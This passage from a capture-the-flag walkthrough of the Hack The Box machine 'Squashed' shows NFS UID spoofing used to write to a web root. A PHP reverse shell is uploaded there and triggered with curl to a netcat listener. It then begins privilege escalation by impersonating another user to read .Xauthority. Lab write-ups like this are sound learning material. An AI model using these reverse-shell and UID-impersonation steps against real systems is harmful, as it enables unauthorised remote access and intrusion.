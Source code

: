 <div class="img_container">
![adduser]({{https://jsom1.github.io/}}/_images/htb_squashed_add.png)
</div>

We see it worked as expected. We created the user, assigned the UID of 2017, and we now have access to the share. We see we impersonated the directory's owner, and we should now be able to write arbitrary files.\\
Let's try to upload a php reverse shell (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). We download the file to our machine (we have to switch to the regular user to be able to use sudo) and rename it *shell.php*.
We must change the IP address as well as the port within the script (my IP, given by the command *sudo ifconfig tun0*, was *10.10.14.3*. I chose port 4444, but that doesn't really matter).
Once those modifications are done, we can switch to the newly created user once again and upload the file on the server:

````
su parallels
sudo wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
nano php-reverse-shell.php -> modify IP address and port
sudo cp php-reverse-shell.php /home/tmpuser/shell.php
chmod +x /home/tmpuser/shell.php
sudo su tmpuser
cp /home/tmpuser/shell.php /mnt/web_server
`````
Finally, we set up a netcat listener on port 4444 and curl the script we added:

````
sudo nc -nlvp 4444
curl 10.10.11.191/shell.php
`````

As we can see in the image below, we receive a connection back to our listener. We are in as the user "Alex". We can upgrade this basic shell into an interactive one using the well-known python command.
We see Python wasn't installed, but Python3 is. From there, we can retrieve the user flag in Alex' home directory:

<div class="img_container">
![user]({{https://jsom1.github.io/}}/_images/htb_squashed_usr.png)
</div>

Now that we have a foothold on the target, we must find a way to elevate our privileges to root. 
Even though the next section is called privilege escalation, it of course first covers enumeration.

## 3. Vertical privilege escalation
{:style="color:DarkRed; font-size: 170%;"}

Still following the walkthrough (I would never have figured that out on my own), we should have noticed something interesting in Ross' share: the presence of *.Xauthority* and *.xsession*.\\
Before digging into it, let's create another user to impersonate Ross. This way, we will have read privileges:

````
sudo useradd fakeross
sudo usermod -u 1001 fakeross
sudo groupmod -g 1001 fakeross
sudo su fakeross
`````
